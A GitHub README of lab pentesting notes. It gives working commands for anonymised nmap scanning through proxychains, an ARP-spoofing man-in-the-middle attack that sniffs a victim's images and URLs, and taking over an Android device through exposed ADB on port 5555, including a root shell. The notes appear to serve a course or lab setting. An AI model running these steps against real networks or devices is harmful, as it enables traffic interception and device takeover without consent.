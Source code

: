 ## Repo for scripts and notes for ADT project

1. Proxy chaining

    
  ```
  sudo apt-get install proxychains
  ```
 
  - copy `proxychains.conf` into `/etc/proxychains.conf`

  - when running `nmap` use proxy chaining as follows:
    
  ```
  sudo proxychains nmap -sT SOME_IP_ADDRESS
  ```

2. Port scanning
  
  1. Make sure if using 2 VM machines they are connected to Internet using
     Bridge (Automatic) option
  2. At first run `sudo netdiscover` to find all IP address
    ![](netdiscover_result.png)

  3. For all IP address run `./detect_os.sh netdiscover_results.txt out.txt` to detect OS
  ```
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Nov  1 14:41:26 2020 -- 1 IP address (1 host up) scanned in 40.54 seconds
    # Nmap 7.80 scan initiated Sun Nov  1 14:41:26 2020 as: nmap -T4 -A -v --append-output -oN out.txt 192.168.0.21
    Nmap scan report for 192.168.0.21
    Host is up (0.00057s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE  VERSION
    5555/tcp open  freeciv?
    | fingerprint-strings: 
    |   adbConnect: 
    |     CNXN
    |_    device::ro.product.name=android_x86;ro.product.model=VMware Virtual Platform;ro.product.device=x86;features=stat_v2,cmd,shell_v2
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5555-TCP:V=7.80%I=7%D=11/1%Time=5F9EBB17%P=x86_64-pc-linux-gnu%r(ad
    SF:bConnect,98,"CNXN\x01\0\0\x01\0\x10\0\0\x80\0\0\0\xfc/\0\0\xbc\xb1\xa7\
    SF:xb1device::ro\.product\.name=android_x86;ro\.product\.model=VMware\x20V
    SF:irtual\x20Platform;ro\.product\.device=x86;features=stat_v2,cmd,shell_v
    SF:2");
  ```

3. Man in the Middle attack
  - Enable packet forwarding `sysctl -w net.ipv4.ip_forward=1` and `sysctl -w net.ipv6.conf.all.forwarding=1`
  - Intercept packages from victim: `arpspoof -i [Network Interface Name] -t [Target IP] [Router IP]`
    to check [Network Interface Name] and [Router IP] run `ip route show`, the final command should be similar to `arpspoof -i eth0 -t 192.168.0.17 192.168.0.1`
  - Intercept package from router: `arpspoof -i [Network Interface Name] -t [Router IP] [Target IP]`
  - Sniff images from victim navigation: `driftnet -i [Network Interface Name]`
  - Sniff URLs information from victim navifation: `urlsnarf -i [Network
    Interface Name]`
  - Finally disable packet forwarding: `sysctl -w net.ipv4.ip_forward=0` and `sysctl -w net.ipv6.conf.all.forwarding=0`
 

4. Wireshark
  - Let's say we want to know what our victim is doing on specific page (and we
    know IP of that server). We can filter our results by _source_ and
destination_:

    ![](images/wireshar_example.png)

---

## Hacking into Android device using port 5555 (ADB)

1. Clone repo https://github.com/EntySec/ghost
2. Install ghost and run it
3. `connect IP_TARGET`
4. Play with victim e.g.:
  - run some apps: `launch com.android.calculator2`
  - take a device screenshot: `screenshot`
  - reboot device: `reboot`
  - run shell: `shell` -> `su` to get root privilege


